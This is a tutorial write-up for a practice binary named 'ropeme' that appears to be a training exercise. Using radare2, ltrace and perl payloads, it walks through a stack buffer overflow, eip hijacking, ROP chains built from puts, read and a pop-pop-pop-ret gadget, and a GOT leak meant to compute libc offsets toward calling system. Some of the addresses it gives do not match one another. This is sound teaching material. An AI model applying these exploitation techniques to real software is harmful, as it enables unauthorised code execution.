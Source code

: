 ========
Write-up
========

This writeup is made on linux using radare2 tools a lot. You may want to use
another platform or tools but I won't bother supporting them.

Exercise 1
==========

Using `strings ./ropeme` we find a line "admin42". It happens to be the
username.

Exercise 2
==========

You can trace calls to library functions with ltrace. This includes strcmp:

::

    $ ltrace ./ropeme admin42
    __libc_start_main(0x80485c9, 2, 0xffa93c74, 0x8048630 <unfinished ...>
    strcmp("admin42", "admin42")                                         = 0
    puts("Enter password:"Enter password:
    )                                              = 16
    fflush(0xf776cd60)                                                   = 0
    read(0test
    , "test\n", 512)                                               = 5
    puts("Wrong password"Wrong password
    )                                               = 15
    +++ exited (status 0) +++


The password is "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227". To
see it without the octal notation one can use printf:

::

    $ printf "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227"
    ĳùð−÷<>[×


That explains why is didn't show up using "strings"!

Exercise 3
==========

Reading ltrace's output we can see that fgets is used to get user input
reading up to 512 chars from stdin. What happens if we really write 512
chars?

::

    $ perl -e 'print "A"x512' | ./ropeme admin42
      Segmentation fault      (core dumped) | ./ropeme admin42

Oh! This smells the buffer overflow! To know where exactly we overwrite the
instruction pointer (eip) I'll use a De Bruijn sequence (I could guess but
this is faster). This is done using radare2 tools.

Here ragg2 will generate a 500-bytes long sequence with no repetitions as
hexadecimal values, rax2 will convert it into ascii values, and we put it in
the clipboard using xclip so that we are able to paste it later.

::

    $ ragg2 -P 500 | rax2 -s - | xclip

Radare2 is then used in debug mode with rarun2 to launch the program with an
argument. We could use gdb but... well... radare2 ^^

::

    $ r2 -d rarun2 program=./ropeme arg1=admin42
        ...
    [0x7f11fc410d80]> dc
    Debugging pid = 22184, tid = 1 now
    [0xf77bfb50]> dc
    Enter password:
    <paste here>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x41694141 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0

Here we have the address at which it tried to return: 0x41694141
Still in radare2 we convert it into an offset to know how much padding we
need:

::

    [0x41694141]> woO 0x41694141
    100

Let's try that!

::

    $ perl -e 'print "A"x100 . "B"x4' | xclip
    $ r2 -c "dc;dc" -d rarun2 program=ropeme arg1=admin42
        ...
    Enter password:
    <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0

It works! We have taken eip! We just have to redirect it to section printing
the winning message. Let's disassemble the function checking the password:

::

    $ r2 ropeme
    [0x080485c9]> aa
    [0x080485c9]> is | grep password
    vaddr=0x080484e6 paddr=0x000004e6 ord=069 fwd=NONE sz=227 bind=GLOBAL type=FUNC name=check_password
    [0x080485c9]> pdf @ sym.check_password
    ╒ (fcn) sym.check_password 227
    │           0x080484e6    55             push ebp
    │           0x080484e7    89e5           mov ebp, esp
    │           0x080484e9    83ec78         sub esp, 0x78
    │           0x080484ec    83ec0c         sub esp, 0xc
    │           0x080484ef    68c7860408     push str.Enter_password: "Enter password:" @ 0x80486c7
    │           0x080484f4    e887feffff     call sym.imp.puts
    │           0x080484f9    83c410         add esp, 0x10
    │           0x080484fc    a190990408     mov eax, dword [obj.stdout__GLIBC_2.0] 
    │           0x08048501    83ec0c         sub esp, 0xc
    │           0x08048504    50             push eax
    │           0x08048505    e866feffff     call sym.imp.fflush
    │           0x0804850a    83c410         add esp, 0x10
    │           0x0804850d    83ec04         sub esp, 4
    │           0x08048510    6800020000     push 0x200
    │           0x08048515    8d45a0         lea eax, [ebp-local_24]
    │           0x08048518    50             push eax
    │           0x08048519    6a00           push 0
    │           0x0804851b    e840feffff     call sym.imp.read
    │           0x08048520    83c410         add esp, 0x10
    │           0x08048523    85c0           test eax, eax
    │       ┌─< 0x08048525    751a           jne 0x8048541
    │       │   0x08048527    83ec0c         sub esp, 0xc
    │       │   0x0804852a    68d7860408     push str.Unable_to_get_the_password
    │       │   0x0804852f    e84cfeffff     call sym.imp.puts
    │       │   0x08048534    83c410         add esp, 0x10
    │       │   0x08048537    b801000000     mov eax, 1
    │      ┌──< 0x0804853c    e986000000     jmp 0x80485c7
    │      │└─> 0x08048541    c745f4010000.  mov dword [ebp-local_3], 1
    │      │    0x08048548    c7458fc4b3c3.  mov dword [ebp-local_28_1], 0xb9c3b3c4
    │      │    0x0804854f    c74593c3b0e2.  mov dword [ebp - 0x6d], 0x88e2b0c3
    │      │    0x08048556    c7459792c3b7.  mov dword [ebp - 0x69], 0x3cb7c392
    │      │    0x0804855d    c7459b3e5bc3.  mov dword [ebp - 0x65], 0x97c35b3e
    │      │    0x08048564    c6459f00       mov byte [ebp - 0x61], 0
    │      │    0x08048568    c745f0000000.  mov dword [ebp-local_4], 0
    │     ┌───< 0x0804856f    eb25           jmp 0x8048596
    │   ┌─────> 0x08048571    8d55a0         lea edx, [ebp-local_24]
    │   │ ││    0x08048574    8b45f0         mov eax, dword [ebp-local_4]
    │   │ ││    0x08048577    01d0           add eax, edx
    │   │ ││    0x08048579    0fb610         movzx edx, byte [eax]
    │   │ ││    0x0804857c    8d4d8f         lea ecx, [ebp-local_28_1]
    │   │ ││    0x0804857f    8b45f0         mov eax, dword [ebp-local_4]
    │   │ ││    0x08048582    01c8           add eax, ecx
    │   │ ││    0x08048584    0fb600         movzx eax, byte [eax]
    │   │ ││    0x08048587    38c2           cmp dl, al
    │   │┌────< 0x08048589    7407           je 0x8048592
    │   ││││    0x0804858b    c745f4000000.  mov dword [ebp-local_3], 0
    │   │└────> 0x08048592    8345f001       add dword [ebp-local_4], 1
    │   │ └───> 0x08048596    837df00f       cmp dword [ebp-local_4], 0xf
    │   └─────< 0x0804859a    7ed5           jle 0x8048571
    │      │    0x0804859c    837df400       cmp dword [ebp-local_3], 0
    │  ┌──────< 0x080485a0    7412           je 0x80485b4
    │  │   │    0x080485a2    83ec0c         sub esp, 0xc
    │  │   │    0x080485a5    68f2860408     push str.Yeah__You_win_
    │  │   │    0x080485aa    e8d1fdffff     call sym.imp.puts
    │  │   │    0x080485af    83c410         add esp, 0x10
    │ ┌───────< 0x080485b2    eb10           jmp 0x80485c4
    │ │└──────> 0x080485b4    83ec0c         sub esp, 0xc
    │ │    │    0x080485b7    6801870408     push str.Wrong_password
    │ │    │    0x080485bc    e8bffdffff     call sym.imp.puts
    │ │    │    0x080485c1    83c410         add esp, 0x10
    │ └───────> 0x080485c4    8b45f4         mov eax, dword [ebp-local_3]
    │      └
    │      └──> 0x080485c7    c9             leave
    ╘           0x080485c8    c3             ret



Ok, so given the disassembly the key section is at 0x080485a5. Let's try that:

::

    $ perl -e 'print "A"x100 . "\xa5\x85\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    Yeah! You win!
    Segmentation fault (core dumped)

Finally!


Exercise 4
==========

When calling another function, the caller (say `main`) pushes the arguments
on the stack (not always, see further) and uses the call opcode that pushes
the current address on the stack for later return and then jumps to the
sub-routine location.

The sub-routine then pushes the ebp address to define its own stack frame,
takes the arguments from the stack to store them in local variables (often
pushing them back or just stocking them in registers), does its thing, then
pops the stack (the ebp address) and returns to the address at the top of the
stack (our previous return address put there by call). The instruction
pointer is incremented and the program continues.

I left away the stack allocation process besides push/pop because it isn't
very relevent here. Also there are other calling conventions besides the
stack. In x86_64, as the registers are bigger and more numerous they are the
primary way to pass arguments.

So the stack look like that before entering puts:

::

    ^ [string address]
    | [return address]

Note that as the stack is decreasing, pushing puts data at the bottom of this
diagram which is the top of the stack (facing downward). Also I represented
it without really using the opcode "call", that's why there is the return
address.

For strcmp it is similar, but note that the arguments are pushed in reverse
order:

::

    ^ [str2   address]
    | [str1   address]
    | [return address]

Exercise 5
==========

To display the password we will hijack a call to puts(). Such a call means
the stack will look somewhat like that before the call:

::

    ^ [password    address]
    | [puts return address]
    | [puts        address]
    | [padding to overflow]

The address of puts is direct:

::

    $ rabin2 -s ropeme | grep puts
    vaddr=0x08048380 paddr=0x00000380 ord=004 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts

So [puts address] is 0x08048330. In the same way we find the password address:

::

    $ rabin2 -z ropeme
    ...
    vaddr=0x080486a2 paddr=0x000006a2 ordinal=004 sz=17 len=9 section=.rodata type=ascii string=ĳùð−÷<>[×
    ...

By the way note how rabin2 isn't troubled at all by the weird password.

So far our stack is something like: "80830408XXXXXXXXa2860408". Right now the
return address isn't really important, we will return to the end of the
check_password function, just before the return statement, at address
0x0804857d.

::

    # Stack wanted:
    #
    # ^ [password    address] = 0x080486a2
    # | [puts return address] = 0x0804857d
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\xa2\x86\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ĳùð−÷<>[×
    Segmentation fault (core dumped)

Yeah!

Exercise 6
==========

We want to print an arbitrary message. The printing part can be done with
puts() but what about the "getting the message" part? The program provides
read(), and we can make use of it.

The read system call takes as argument a file descriptor, an address to write
to and a length. We will read from stdin (file descriptor 0). Our message
will be a traditional "Hello World!" which is of length 13 with the null
terminator.

So we need to call read, store our string somewhere, and call puts to print
it. The stack will look somewhat like:

::

    ^ [string address]
    | [end    address]
    | [string len    ]
    | [string address]
    | [stdin  fd     ]
    | [puts   address]
    | [read   address]
    | [padding       ]

However, if we do that when returning from write the argument for puts will
be stdin file descriptor! We need to find a way to clean the stack removing
the three arguments of write.

This is done using a gadget, a small but useful sequence of instructions
present at the end of a function. Here we want something to pop three
arguments off the stack. Let's use radare2 to find something like that.

::

    $ r2 ropeme
     -- Do you want to print 333.5K chars? (y/N)
    [0x08048360]> /R pop
        ...

      0x08048538             5b  pop ebx
      0x08048539             5e  pop esi
      0x0804853a             5f  pop edi
      0x0804853b             5d  pop ebp
      0x0804853c             c3  ret

        ...

Better than what we needed! We will only use the last three pops. Returning
to 0x08048539 will clear the stack of its three last elements then return
normally to the next function. I will refer to that address as pppr for
"pop pop pop ret". Our stack now looks like that:

::

    ^ [string address]
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address]
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

The only thing we lack is an address to write to. We need to find a section
in memory which is more than 14 bytes large and has Read-Write permissions.
We can use radare2 for that:

::

    $ rabin2 -S ropeme | grep "perm=..rw"
    idx=17 vaddr=0x0804982c paddr=0x0000082c sz=4 vsz=4 perm=--rw- name=.init_array
    idx=18 vaddr=0x08049830 paddr=0x00000830 sz=4 vsz=4 perm=--rw- name=.fini_array
    idx=19 vaddr=0x08049834 paddr=0x00000834 sz=4 vsz=4 perm=--rw- name=.jcr
    idx=20 vaddr=0x08049838 paddr=0x00000838 sz=232 vsz=232 perm=--rw- name=.dynamic
    idx=21 vaddr=0x08049920 paddr=0x00000920 sz=4 vsz=4 perm=--rw- name=.got
    idx=22 vaddr=0x08049924 paddr=0x00000924 sz=36 vsz=36 perm=--rw- name=.got.plt
    idx=23 vaddr=0x08049948 paddr=0x00000948 sz=8 vsz=8 perm=--rw- name=.data
    idx=24 vaddr=0x08049950 paddr=0x00000950 sz=8 vsz=8 perm=--rw- name=.bss
    idx=30 vaddr=0x0804982c paddr=0x0000082c sz=292 vsz=4096 perm=m-rw- name=phdr1
    idx=31 vaddr=0x08048000 paddr=0x00000000 sz=52 vsz=52 perm=m-rw- name=ehdr

Most sections are too small... The .dynamic seems large enough to be
interesting though. We'll use it.

::

    ^ [string address] = 0x08049838
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address] = 0x08049838
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

Let's try that!

::

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x60\x83\x04\x08"
    . "\x39\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\x38\x98\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x80\x83\x04\x08"
    . "\x7d\x85\x04\x08"
    . "\x38\x98\x04\x08"
    EOF
    Enter password:
    [...]
    Wrong password
    Segmentation fault

Hmm... It didn't work... The reason is that the first call to read (to get
the password) reads 512 bytes from the standard input so it goes in the way
of the other call to read. The solution is to completely fill it and put our
input just after:

::
    ^ [padding       ] = 'B' x 388
    | [string address] = 0x08049838
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address] = 0x08049838
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x60\x83\x04\x08"
    . "\x39\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\x38\x98\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x80\x83\x04\x08"
    . "\x7d\x85\x04\x08"
    . "\x38\x98\x04\x08"
    . "B" x 388
    . "Hello World!\x00"
    EOF
    Enter password:
    [...]
    Wrong password
    Hello World!
    Segmentation fault

Working! That way we can chain function calls at will!

Exercise 7
==========

As strcmp comes from the libc it is dynamically loaded. That means that the
address of the real strcmp function isn't know at compile time. The jump is
made from the PLT section into the GOT section. To know at which address we
jump we just have to ask radare2:

::

    $ rabin2 -s ropeme | grep strcmp
    vaddr=0x08048350 paddr=0x00000350 ord=001 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.strcmp

So the strcmp address in the PLT is 0x08048310. Where does it jump after that?

::

    $ r2 -q -d -c 'dc;pd 1 @ 0x08048350' rarun2 program=ropeme arg1=admin42
        ...
    0x08048350    ff2530990408   jmp qword [rip + 0x8049930]   ; [0x10091c86:8]=-1

We now know that the jump in the GOT is done at the address 0x8049930 for
strcmp. At this address will be dynamically decided the address of the strcmp
function in the dynamically loaded libc. We can print it using our puts
payload from exercise 5:

::

    # Stack wanted:
    #
    # ^ [strcmp GOT  address] = 0x08049930
    # | [puts return address] = 0x0804857d
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��c�PB]�
    Segmentation fault (core dumped)

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��g�PBa�
    Segmentation fault (core dumped)

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��k�PBe�
    Segmentation fault (core dumped)

The first 4 bytes of the oddly displayed line are our address. As you can see
the address changes from one call to the other. Let's use strace to see it
more clearly:

::

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' |\
      strace -e write ./ropeme admin42
    [ Process PID=26818 runs in 32 bit mode. ]
    write(1, "Enter password:\n", 16Enter password:
    )       = 16
    write(1, "Wrong password\n", 15Wrong password
    )        = 15
    write(1, "\260Pn\367P\362g\367\n", 9�Pn�P�g�
    )   = 9
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault

    $ printf "\260Pn\367" | xxd
    0000000: b050 6ef7                                .Pn.

So our address is 0xf76e50b0 in that instance.

The reason I used strace is because if we try piping ropeme's output to
another program (xxd for example in order to get directly an hexadecimal
representation) we won't get any output. The reason is that puts() won't
write directly to the pipe, the output is bufferized. This wouldn't be a
problem normally because all output is flushed at process exit, but as we
segfault we don't benefit from it. Strace is able to see the argument when
the call occurs so before buffering, that's why it works here.

There is another solution though: flushing manually the output. To do that we
will use the fflush function. This function will take a pointer to the stdout
file structure that we don't have... Meh, let's just call it in place:

::

    # Stack wanted:
    #
    # ^ [strcmp GOT  address] = 0x08049930
    # | [flushing    address] = 0x080484fc
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\xfc\x84\x04\x08\x30\x99\x04\x08"' |\
      ./ropeme admin42 | xxd
    00000000: 456e 7465 7220 7061 7373 776f 7264 3a0a  Enter password:.
    00000010: 5772 6f6e 6720 7061 7373 776f 7264 0ab0  Wrong password..
    00000020: 7064 f750 125e f70a                      pd.P.^..
    Segmentation fault (core dumped)

There we are.

Exercise 8
==========

This address is interesting because the offset between two libc functions
will always be the same so we can compute the offset to between strcmp and
any other function and use it to determine the address of any other function.

We'll start by computing the offset between system and strcmp in the libc.
Here I take advantage of the fact that I know that the libc that is compiled
is the same than the one used by my system, in the real world you may want to
identify the serveur running and download its standard precompiled libc for
example.

::

    $ r2 /lib/libc-2.22.so
    [0x00020730]> is | grep =system
    vaddr=0x0003f890 paddr=0x0003f890 ord=5724 fwd=NONE sz=45 bind=UNKNOWN type=FUNC name=system
    [0x00020730]> is | grep =strcmp
    vaddr=0x0007f650 paddr=0x0007f650 ord=5510 fwd=NONE sz=60 bind=GLOBAL type=LOOS name=strcmp
    [0x00020730]> ? 0x0007f650 - 0x0003f890
    261568 0x3fdc0 0776700 255.4K 3000:0dc0 261568 11000000 261568.0 0.000000f 0.000000

So the offset from strcmp to system is -0x3fdc0.

Of course having it for a paste instance is quite useless, we must now find
a way to use it without quitting the process. There are two strategies:
either we stay within the program and build the address by using ROP gadgets
astuciously, either we consider use the program as a server, have it output
the address, compute the offset outside the process and then have the process
read the new address back.
